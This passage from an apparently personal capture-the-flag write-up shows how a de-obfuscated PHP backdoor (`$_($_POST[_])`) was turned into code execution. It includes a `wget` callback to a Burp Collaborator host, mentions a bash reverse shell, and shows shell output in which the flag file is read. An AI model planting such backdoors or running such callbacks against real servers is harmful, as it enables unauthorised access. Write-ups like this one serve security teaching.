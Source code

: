 Well isn't that interesting. Let's plug that in and see what it looks like:

```php
$_($_POST[_])
```

Well, that's starting to look more interesting. It looks like we have a function call to $_ where the server takes the \_ argument as a POST request. We can test this locally, though we should be at the point where we can try to gain RCE from this. We can try something like an HTTP callback with ``wget burpcollaburl``. 

And surprise! We got a callback.
![[https://blog.spookysec.net/img/Pasted image 20230623144707.png]](https://blog.spookysec.net/img/Pasted image 20230623144707.png)

Now, I had to borrow Szy's VPS for this because my ISP doesn't like port forwarding and I'm too lazy to setup NGROK; so, using a standard bash reverse shell, we can land on the host:

![[https://blog.spookysec.net/img/Pasted image 20230623144802.png]](https://blog.spookysec.net/img/Pasted image 20230623144802.png)

annnndddd I only have the text based output because Szy didn't send me a screenshot, so you'll just have to believe it worked :D

```
    www-data@comprom-1uocqb-1687450894-f49f96585-wb4jp:/www$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@comprom-1uocqb-1687450894-f49f96585-wb4jp:/www$ ls -al /
    ls -al /
    total 84
    drwxr-xr-x   1 root root 4096 Jun 22 16:21 .
    drwxr-xr-x   1 root root 4096 Jun 22 16:21 ..
    drwxr-xr-x   1 root root 4096 Nov 15  2022 bin
    drwxr-xr-x   2 root root 4096 Sep  3  2022 boot
    drwxr-xr-x   5 root root  360 Jun 22 16:21 dev
    drwxr-xr-x   1 root root 4096 Jun 22 16:21 etc
    -rw-r--r--   1 root root   35 Jun 22 13:28 flag_3_7764865c46bfce2c138e77ae5407354e.txt
    drwxr-xr-x   2 root root 4096 Sep  3  2022 home
    drwxr-xr-x   1 root root 4096 Nov 15  2022 lib
    drwxr-xr-x   2 root root 4096 Nov 14  2022 lib64
    drwxr-xr-x   2 root root 4096 Nov 14  2022 media
    drwxr-xr-x   2 root root 4096 Nov 14  2022 mnt
    drwxr-xr-x   2 root root 4096 Nov 14  2022 opt
    dr-xr-xr-x 296 root root    0 Jun 22 16:21 proc
    drwx------   1 root root 4096 Nov 15  2022 root
    drwxr-xr-x   1 root root 4096 Nov 15  2022 run
    drwxr-xr-x   1 root root 4096 Nov 15  2022 sbin
    drwxr-xr-x   2 root root 4096 Nov 14  2022 srv
    dr-xr-xr-x  13 root root    0 Jun 22 16:21 sys
    drwxrwxrwt   1 root root 4096 Jun 22 13:28 tmp
    drwxr-xr-x   1 root root 4096 Nov 14  2022 usr
    drwxr-xr-x   1 root root 4096 Nov 15  2022 var
    www-data@comprom-1uocqb-1687450894-f49f96585-wb4jp:/www$ cat flag_3_7764865c46bfce2c138e77ae5407354e.txt
    <w$ cat /flag_3_7764865c46bfce2c138e77ae5407354e.txt     
    flag{p3rs1s<snip>32}
```
